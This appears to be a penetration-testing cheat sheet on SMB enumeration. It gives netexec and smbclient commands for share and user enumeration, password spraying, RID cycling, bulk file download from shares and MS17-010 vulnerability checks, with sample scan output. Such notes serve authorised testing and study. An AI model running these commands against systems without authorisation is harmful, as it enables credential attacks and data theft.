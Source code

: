 ```yaml
---
description: Basic SMB Enumeration and Exploitation
---
```


# SMB

### Basic Enumeration

{% code overflow="wrap" %}
```bash
# List all NetExec modules
netexec smb 172.16.8.139 -L

# Check SMB version
netexec smb 172.16.8.139

# Check if guest is not disabled
netexec smb 172.16.8.139 -u guest -p '' --shares

# Check SMB Service on subnet
netexec smb 172.16.8.139/24

# Check null auth
smbclient -L 192.168.1.2 --no-pass
smbclient //192.168.1.2/public --no-pass
```
{% endcode %}

### Authenticated Enumeration

Shares check with credentials

{% code overflow="wrap" %}
```bash
# Check using valid account
netexec smb 172.16.8.139 -u asuka -p 'p@ssw0rd' --shares

# check with local account (not domain account)
netexec smb 172.16.8.139 -u asuka -p 'p@ssw0rd' --shares --local-auth
```
{% endcode %}

Username enumeration on Workstation using valid credentials

{% code overflow="wrap" %}
```bash
netexec smb 10.10.100.206 -u 'Jon' -p 'alqfna22' --users
```
{% endcode %}

Enum disk

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.140 -u 'Administrator' -p 'Password123' --disk --local-auth
```
{% endcode %}

### Password Spraying

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.139 -u username-lists.txt -p 'p@ssw0rd'
```
{% endcode %}

### RID Cycling - Username Enumeration

{% code overflow="wrap" %}
```bash
# RID Cycling with Guest 
netexec smb 172.16.8.139 -u guest -p '' --rid-brute

# RID Cycling with valid account
netexec smb 172.16.8.139 -u evasvc -p 'Serviceworks1' --rid-brute

# or with impacket-lookupsid
impacket-lookupsid 'evasvc':'Serviceworks1'@evangelion.lab

```
{% endcode %}

### SMBClient

```bash
# no pass
smbclient //192.168.1.2/public --no-pass

# with creds
smbclient //172.16.8.139/SYSVOL -U  'evasvc'%'Serviceworks1' -p 445

# download all files from shares
smbclient '//10.10.11.174/support-tools' -N -c 'prompt OFF;recurse ON;mget *'
```

### Vuln Checks

{% code overflow="wrap" %}
```bash
nmap -Pn --script 'smb-vuln*' -p 139,445 10.10.100.206
netexec smb 10.10.100.206 -u '' -p '' -M ms17-010
```
{% endcode %}

Example output:

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-24 23:50 WIB
Nmap scan report for 10.10.100.206 (10.10.100.206)
Host is up (0.38s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 13.31 seconds
```

```bash
# netexec smb 10.10.100.206 -u '' -p '' -M ms17-010

SMB         10.10.100.206   445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.10.100.206   445    JON-PC           [+] Jon-PC\: 
MS17-010                                            [+] 10.10.100.206 is likely VULNERABLE to MS17-010! (Windows 7 Professional 7601 Service Pack 1)
```

Updated soon...
